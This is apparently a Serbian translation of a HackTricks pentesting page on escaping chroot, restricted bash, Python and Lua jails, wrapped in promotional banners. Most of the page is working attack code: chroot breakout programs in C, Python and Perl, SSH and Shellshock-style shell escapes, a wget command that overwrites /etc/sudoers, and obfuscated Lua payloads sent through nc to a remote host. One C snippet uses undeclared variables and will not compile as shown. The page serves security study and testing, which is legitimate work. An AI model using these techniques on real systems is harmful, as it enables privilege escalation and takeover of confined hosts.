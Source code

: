 # Izlazak iz zatvora

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## **GTFOBins**

**Pretražite na** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **da vidite da li možete izvršiti bilo koji binarni fajl sa "Shell" svojstvom**

## Chroot Izlazi

Sa [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Chroot mehanizam **nije namenjen za odbranu** od namernog mešanja od strane **privilegovanih** (**root**) **korisnika**. Na većini sistema, chroot konteksti se ne slažu pravilno i chrootovani programi **sa dovoljnim privilegijama mogu izvršiti drugi chroot da bi pobegli**.\
Obično to znači da da biste pobegli, morate biti root unutar chroot-a.

{% hint style="success" %}
**Alat** [**chw00t**](https://github.com/earthquake/chw00t) je kreiran da zloupotrebi sledeće scenarije i pobegne iz `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Ako ste **root** unutar chroot-a, **možete pobegnuti** kreiranjem **drugog chroot-a**. To je zato što 2 chroot-a ne mogu koegzistirati (u Linux-u), tako da ako kreirate folder i zatim **napravite novi chroot** u tom novom folderu dok ste **van njega**, sada ćete biti **van novog chroot-a** i stoga ćete biti u FS-u.

To se dešava jer obično chroot NE pomera vaš radni direktorijum na označeni, tako da možete kreirati chroot, ali biti van njega.
{% endhint %}

Obično nećete pronaći `chroot` binarni fajl unutar chroot zatvora, ali **možete kompajlirati, otpremiti i izvršiti** binarni fajl:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Ovo je slično prethodnom slučaju, ali u ovom slučaju **napadač čuva deskriptor datoteke za trenutni direktorijum** i zatim **stvara chroot u novom folderu**. Na kraju, pošto ima **pristup** tom **FD** **van** chroot-a, pristupa mu i **beži**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD može biti prosleđen preko Unix domen soketa, tako da:

* Kreirajte podproces (fork)
* Kreirajte UDS kako bi roditelj i dete mogli da komuniciraju
* Pokrenite chroot u podprocesu u drugom folderu
* U roditeljskom procesu, kreirajte FD foldera koji je van novog chroot-a podprocesa
* Prosledite tom podprocesu taj FD koristeći UDS
* Podproces menja direktorijum na taj FD, i pošto je van svog chroot-a, pobegnuće iz zatvora
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Montiranje root uređaja (/) u direktorijum unutar chroot-a
* Chrootovanje u taj direktorijum

Ovo je moguće u Linux-u
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Montirajte procfs u direktorijum unutar chroot-a (ako već nije)
* Potražite pid koji ima drugačiji root/cwd unos, kao: /proc/1/root
* Chroot u taj unos
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Kreirajte Fork (podproces) i chroot u drugi folder dublje u FS i CD na njega
* Iz roditeljskog procesa, premestite folder u kojem se podproces nalazi u folder prethodni chroot-u dece
* Ovaj podproces će se naći van chroot-a
{% endhint %}

### ptrace

{% hint style="warning" %}
* Pre nekog vremena korisnici su mogli da debaguju svoje procese iz procesa samog sebe... ali ovo više nije moguće po default-u
* U svakom slučaju, ako je moguće, mogli biste ptrace u proces i izvršiti shellcode unutar njega ([vidi ovaj primer](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Dobijte informacije o zatvoru:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Измените PATH

Проверите да ли можете да измените PATH env променљиву
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Koristeći vim
```bash
:set shell=/bin/sh
:shell
```
### Kreirajte skriptu

Proverite da li možete da kreirate izvršni fajl sa _/bin/bash_ kao sadržajem
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Dobijanje bash-a preko SSH

Ako pristupate putem ssh, možete koristiti ovu trik da izvršite bash shell:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Deklaracija
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Možete prepisati, na primer, sudoers datoteku
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Ostali trikovi

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Takođe bi mogla biti zanimljiva stranica:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python zatvori

Trikovi o izlasku iz python zatvora na sledećoj stranici:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua zatvori

Na ovoj stranici možete pronaći globalne funkcije kojima imate pristup unutar lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval sa izvršavanjem komandi:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Neki trikovi za **pozivanje funkcija biblioteke bez korišćenja tačaka**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Nabrojite funkcije biblioteke:
```bash
for k,v in pairs(string) do print(k,v) end
```
Napomena da se svaki put kada izvršite prethodni jedan red u **drugom lua okruženju redosled funkcija menja**. Stoga, ako treba da izvršite jednu specifičnu funkciju, možete izvršiti napad silom učitavajući različita lua okruženja i pozivajući prvu funkciju iz le biblioteke:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Dobijte interaktivnu lua ljusku**: Ako ste unutar ograničene lua ljuske, možete dobiti novu lua ljusku (i nadamo se neograničenu) pozivajući:
```bash
debug.debug()
```
## Reference

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdovi: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
